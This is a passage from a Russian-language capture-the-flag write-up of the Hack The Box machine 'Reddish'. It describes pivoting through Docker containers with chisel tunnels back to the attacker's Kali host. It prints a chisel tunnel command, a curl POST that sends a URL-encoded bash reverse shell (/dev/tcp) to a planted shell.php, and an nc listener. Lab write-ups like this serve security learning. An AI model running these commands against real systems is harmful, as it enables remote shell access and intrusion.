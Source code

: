 Неплохо бы, да вот есть одно «но»: хост `www` умеет общаться только с `nodered`, а напрямую связаться с Kali он не может. В таком случае будем создавать очередной туннель (третий по счету) поверх существующего обратного, чтобы через него поймать callback от `www` на Kali. Новый туннель будет прямым (или «локальным»).

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 7001:127.0.0.1:9001 &
```

Что здесь произошло: мы подключились к серверу `10.10.14.19:8000` и вместе с этим проложили туннель, который берет начало в 7001-м порту контейнера `nodered`, а заканчивается в 9001-м порту ВМ Kali. Теперь все, что попадет в интерфейс `172.19.0.4:7001` будет автоматически перенаправлено на машину атакующего по адресу `10.10.14.19:9001`. То есть мы сможем собрать реверс-шелл и в качестве цели (`RHOST:RPORT`) указать контейнер `172.19.0.4:7001`, а отклик придет уже на локальную (`LHOST:LPORT`) тачку `10.10.14.19:9001`. Просто как день!

![network-map-4.png](/assets/images/htb/machines/reddish/network-map-4.png)
{:.center-image}

Сетевая карта. Часть 4: Первый туннель до Kali с nodered
{:.quote}

Я добавил две дополнительные строки в скрипт [pwn-redis.sh](https://github.com/snovvcrash/xakepru/blob/master/htb-reddish/pwn-redis.sh): «отправить шелл» и «запустить слушателя на порт `9001`».

```bash
...
(sleep 0.1; curl -s -X POST -d 'cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.4%2F7001%200%3E%261%27' localhost:8890/shell.php >/dev/null &)
rlwrap nc -lvnp 9001
```
